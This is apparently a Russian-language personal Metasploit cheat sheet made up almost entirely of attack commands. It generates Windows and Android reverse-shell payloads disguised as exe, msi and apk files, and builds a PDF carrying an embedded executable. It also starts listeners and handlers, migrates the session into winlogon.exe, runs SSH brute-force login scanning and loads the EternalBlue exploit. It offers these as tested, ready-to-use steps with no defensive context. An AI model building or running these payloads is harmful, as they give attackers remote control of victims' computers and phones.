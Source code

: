 # MetaSploit

Создаем реверс шелл для виндовс
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.50.200 lport=5555 -f exe -o sh1.exe


проверено для netcat и для метасплойт

msfvenom -p windows/shell_reverse_tcp LHOST=10.18.35.17 LPORT=7777 -f exe -o Zero.exe

msfvenom –platform windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.8.0.28 LPORT=4444 -f msi -o tmp/rev.msi



Включаем хендлер
rlwrap nc -lvnp 7777

вместо неткат для метасплойт

use exploit/multi/handler

migrate -N winlogon.exe

run


use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set PAYLOAD windows/x64/shell_reverse_tcp

set lhost 192.168.0.9

set lport 4444

exploit


Для АНДРОИД
msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.50.123 lport= 5555 R> Test.apk

Эксплоит в PDF​
Так же для фреймворка не составит труда сгенерировать PDF файл с полезной нагрузкой и аналогичным образом подключиться к нему. Давайте же приступим!

Здесь уже msfvenom нам не понадобиться, будем всё делать прямиком в метасплоите, поэтому снова его запускаем msfconsole.

Далее прописываем вот такие команды:

Код:

use exploit/windows/fileformat/adobe_pdf_embedded_exe_nojs


Здесь будет задействован эксполит, который будет встроен в PDF файл

Код:

set lhost 192.168.0.9

set lport 4444

set filename Test3.pdf


Здесь задаём имя нашему файлу

Код:

exploit


Для брута use auxiliary/scanner/ssh/ssh_login



eternalblue

use exploit/windows/smb/ms17_010_eternalblue
   show payloads
